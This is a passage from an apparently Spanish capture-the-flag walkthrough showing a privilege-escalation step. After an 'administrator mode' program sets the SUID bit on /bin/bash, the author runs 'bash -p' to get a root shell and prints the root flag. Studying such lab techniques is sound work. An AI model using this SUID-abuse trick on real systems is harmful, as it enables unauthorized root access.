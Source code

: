 Info:

```
############################################################
#      Sistema de Gestión - Modo Usuario/Admin             #
############################################################

Escribe la contraseña: 
[+] Estás en modo administrador

[+] Modo administrador activado.
```

Si ahora vemos los permisos de la `bash`...

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

Vemos que ha funcionado, por lo que haremos lo siguiente:

```shell
bash -p
```

Y con esto ya seremos `root`, por lo que leeremos la flag de `root`:

> root.txt

```
c8b85b82985842d2edddb7956cfac7b8
```
